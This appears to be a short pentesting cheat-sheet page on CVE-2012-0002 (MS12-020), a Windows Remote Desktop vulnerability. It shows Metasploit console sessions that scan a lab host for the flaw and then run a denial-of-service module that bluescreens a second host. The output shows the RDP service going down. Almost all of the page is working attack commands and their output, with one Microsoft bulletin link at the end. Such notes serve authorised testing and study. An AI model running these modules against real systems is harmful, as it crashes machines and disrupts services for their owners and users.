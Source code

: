 ```yaml
---
title : "CVE-2012-0002"
# pre : ' '
description : "Vulnerabilities in Remote Desktop Could Allow Remote Code Execution."
date : 2020-03-23T11:21:55+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2012-0002 | MS12-020

* MS12-020
* CVE-2012-0002
* CVE-2012-0152

### Scanner

```plain
msf5 > use auxiliary/scanner/rdp/ms12_020_check
```

## Examples

```plain
msf5 > use auxiliary/scanner/rdp/ms12_020_check
msf5 auxiliary(scanner/rdp/ms12_020_check) > set rhosts 10.10.10.16
msf5 auxiliary(scanner/rdp/ms12_020_check) > run

[+] 10.10.10.16:3389      - 10.10.10.16:3389 - The target is vulnerable.
[*] 10.10.10.16:3389      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### Exploit DoS

Will bluescreen the target.

```plain
msf5 > use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
msf5 auxiliary(dos/windows/rdp/ms12_020_maxchannelids) > set rhosts 10.10.10.15
msf5 auxiliary(dos/windows/rdp/ms12_020_maxchannelids) > run
[*] Running module against 10.10.10.15

[*] 10.10.10.15:3389 - 10.10.10.15:3389 - Sending MS12-020 Microsoft Remote Desktop Use-After-Free DoS
[*] 10.10.10.15:3389 - 10.10.10.15:3389 - 210 bytes sent
[*] 10.10.10.15:3389 - 10.10.10.15:3389 - Checking RDP status...
[+] 10.10.10.15:3389 - 10.10.10.15:3389 seems down
[*] Auxiliary module execution completed
```

## URL List

* [Docs.microsoft.com - ms12-020](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2012/ms12-020)
